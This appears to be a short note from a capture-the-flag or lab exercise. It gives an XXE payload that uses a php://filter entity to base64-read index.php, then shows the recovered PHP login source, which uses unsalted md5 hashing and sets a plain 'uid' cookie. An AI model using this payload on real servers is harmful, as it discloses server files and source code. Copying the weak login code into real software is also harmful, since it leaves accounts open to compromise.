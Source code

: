 use this to read php files: 

<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>

...&company;....


index.php: 

<?php
session_start();
include "config.php";
$error = '';

if ($_SESSION['username']) {
  header("Location: /profile.php", TRUE, 301);
  exit();
}

if (isset($_POST['username']) && isset($_POST['password'])) {
  if ($stmt = $conn->prepare('SELECT uid, password FROM login WHERE username = ?')) {
    $stmt->bind_param('s', $_POST['username']);
    $stmt->execute();
    $stmt->store_result();
    if ($stmt->num_rows > 0) {
      $stmt->bind_result($id, $password);
      $stmt->fetch();
      $stmt->close();
      if (md5($_POST['password']) === $password) {
        $_SESSION['username'] = $_POST['username'];
        $_SESSION['uid'] = $id;
        setcookie('uid', $id, time() + (86400 * 30), "/");
        header("Location: /profile.php", TRUE, 301);
        exit();
      } else {
        // Incorrect password
        $error =
          'Invalid login!';
      }
    } else {
      // Incorrect username
      $error =
        'Invalid login!';
    }
  } else {
    $error =
      'Invalid login!';
  }
}
?>

<html lang="en">
